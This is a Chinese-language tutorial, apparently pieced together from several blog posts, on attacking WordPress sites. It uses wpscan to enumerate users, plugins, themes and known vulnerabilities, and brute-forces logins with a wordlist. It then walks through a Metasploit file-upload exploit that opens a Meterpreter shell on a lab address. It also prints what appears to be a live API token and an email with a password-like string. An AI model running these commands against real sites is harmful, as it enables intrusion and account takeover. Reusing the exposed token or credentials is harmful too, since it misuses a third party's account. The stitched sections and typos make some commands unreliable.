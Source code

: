 很多企业官网使用的WordPress搭建。
使用wpscan工具扫描历史漏洞和插件组件漏洞。
如：任意文件读取等。

需要注册token才能查看漏洞信息
<https://blog.csdn.net/weixin_44628122/article/details/107250045>
3312@qq.com+ 123
```
命令时带上token
--api-token mKcu3vyatgfAvUnipF7VMuZEuI2Lr3SGVjAp4ani1aQ
```


kali中可以使用wpscan：
```text
wpscan --url https://www.xxxxx.wiki/
```

> 演示案例：

* 我们扫描192.168.43.104:8000这个站点（此站点存在一个WordPress进程）

![](https://pic3.zhimg.com/v2-b90cd10071461ee62a625f52f4698a20_r.jpg)

![](https://pic4.zhimg.com/v2-f30e534aa4bbe3e6d6580aa7c5b32aff_r.jpg)

## 五、扫描指定用户

* 格式：

```text
wpscan --url https://www.xxxxxxx.wiki/ --enumerate u
```

## 六、**暴力破解得到密码**

* **在暴力破解之前，需要提供一个字典文件**
* 格式：

```text
wpscan --url  https://www.xxxxx.wiki/  -e  u --wordlist 字典文件路径
```

## 七、**扫描插件漏洞**

* 插件可以扩展`WordPress`站点的功能，但很多插件中都存在安全漏洞，而这也会给攻击者提供可乘之机
* 我们可以使用下列命令扫描`WordPress`站点中安装的插件：

1. wpscan --url [https://www.xxxxx.wiki/](https://link.zhihu.com/?target=https%3A//www.xxxxx.wiki/) --enumerate p
2.
3. //备注：--url与-u参数相同，下面雷同

* 我们可以使用下列命令来扫描目标插件中的安全漏洞：

```text
wpscan --url https://www.xxxxx.wiki/ --enumerate vp
```

## 八、**主题漏洞扫描**

* 使用下列命令对主题进行扫描：

```text
wpscan --url https://www.xxxxx.wiki --enumerate t
```

> 演示案例：

![](https://pic1.zhimg.com/v2-3673956c30b6f8797b6bd8788b7e17ce_r.jpg)

* 看到总共数据库中的402个主题，发现了3个主题，但是发现的主题不一定有这么多，会在下面显示

![](https://picx.zhimg.com/v2-6e69696ff70649a8dd4a643e0653e2df_r.jpg)

* 使用下列命令扫描主题中存在的漏洞：

```text
wpscan --url https://www.xxxxxx.wiki --enumerate vt
```

## 九、**`TimThumbs`文件漏洞扫描**

```text
wpscan -u https://www.xxxxxx.wiki/ -enumerate tt
```

^


## 结合Metasploit利用插件中的漏洞

接下来，我们将用第一个插件中的任意文件上传漏洞来进行漏洞利用演示，该漏洞允许我们上传恶意文件并实现远程代码执行。

打开终端窗口并输入下列命令：

```
useexploit/unix/webapp/wp_reflexgallery_file_upload
msfexploit(wp_reflexgallery_file_upload) > set rhost 192.168.0.101
msfexploit(wp_reflexgallery_file_upload) > set targetURI /wordpress/
msfexploit(wp_reflexgallery_file_upload) > exploit
```

你将看到终端与目标设备建立了Meterpreter会话，你可以输入下列命令查看目标系统信息：

```
Sysinfo
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/15287971789768.png!small)

## 枚举WordPress用户名

我们可以在终端中输入下列命令来枚举WordPress用户名：

```
./wpscan.rb -u http://192.168.0.101/wordpress/ --enumerate u
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/15287972068549.png!small)

接下来工具将导出用户名数据表，你可以看到用户名以及对应的ID信息。

当然了，你也可以使用下列命令枚举出所有的内容：

```
./wpscan.rb -u http://192.168.0.101/wordpress/ -e at -e ap -e u
–e at : enumerate all themes of targeted website
–e ap: enumerate all plugins of targeted website
–e u: enumerate all usernames of targeted website
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/15287972309586.png!small)

## 使用WPScan进行暴力破解

在进行暴力破解攻击之前，我们需要创建对应的字典文件。输入下列命令：

```
./wpscan.rb –u http://192.168.0.101/wordpress/ --wordlist /root/Desktop/dict.txt --usernameadmin
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/1528797258105.png!small)

如果找到了相匹配的用户名与密码，工具将直接以admin:password的形式显示出来：

